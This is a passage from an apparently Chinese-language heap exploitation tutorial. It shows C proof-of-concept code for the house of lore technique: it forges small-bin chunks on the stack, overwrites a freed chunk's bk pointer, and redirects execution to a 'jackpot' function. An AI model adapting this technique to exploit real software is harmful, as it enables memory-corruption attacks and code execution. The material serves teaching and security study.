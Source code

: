  ```c
   stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
   stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
 
   void *p5 = malloc(1000);
   fprintf(stderr, "另外再分配一块，避免与 top chunk 合并 %p\n", p5);
 
   fprintf(stderr, "Free victim chunk %p, 他会被插入到 fastbin 中\n", victim);
   free((void*)victim);
 
   fprintf(stderr, "\n此时 victim chunk 的 fd、bk 为零\n");
   fprintf(stderr, "victim->fd: %p\n", (void *)victim[0]);
   fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);
 
   fprintf(stderr, "这时候去申请一个 chunk，触发 fastbin 的合并使得 victim 进去 unsortedbin 中处理，最终被整理到 small bin 中 %p\n", victim);
   void *p2 = malloc(1200);
 
   fprintf(stderr, "现在 victim chunk 的 fd 和 bk 更新为 unsorted bin 的地址\n");
   fprintf(stderr, "victim->fd: %p\n", (void *)victim[0]);
   fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);
 
   fprintf(stderr, "现在模拟一个可以覆盖 victim 的 bk 指针的漏洞，让他的 bk 指针指向栈上\n");
   victim[1] = (intptr_t)stack_buffer_1;
 
   fprintf(stderr, "然后申请跟第一个 chunk 大小一样的 chunk\n");
   fprintf(stderr, "他应该会返回 victim chunk 并且它的 bk 为修改掉的 victim 的 bk\n");
   void *p3 = malloc(100);
 
   fprintf(stderr, "最后 malloc 一次会返回 victim->bk 指向的那里\n");
   char *p4 = malloc(100);
   fprintf(stderr, "p4 = malloc(100)\n");
 
   fprintf(stderr, "\n在最后一个 malloc 之后，stack_buffer_2 的 fd 指针已更改 %p\n",stack_buffer_2[2]);
 
   fprintf(stderr, "\np4 在栈上 %p\n", p4);
   intptr_t sc = (intptr_t)jackpot;
   memcpy((p4+40), &sc, 8);
 }
 ```

​    运行结果。

 ![image-20211226161102216](/assets/wgpsec/images/heap/image-20211226161102216.png)

​    在前面的技术中，我们已经知道怎样去伪造一个fake chunk，接下来，我们要尝试伪造一条small bins链。

​    首先创建两个chunk，第一个是我们的victim chunk，请确保它是一个small chunk，第二个随意，只是为了确保在free时victim chunk不会被合并进top chunk 里。然后，在栈上伪造两个fake chunk，让fake chunk 1的fd指向victim chunk，bk指向fake chunk 2，fake chunk 2的fd指向fake chunk 1，这样一个small bin链就差不多了。

​    如下图所示。

 ![image-20211226161117958](/assets/wgpsec/images/heap/image-20211226161117958.png)
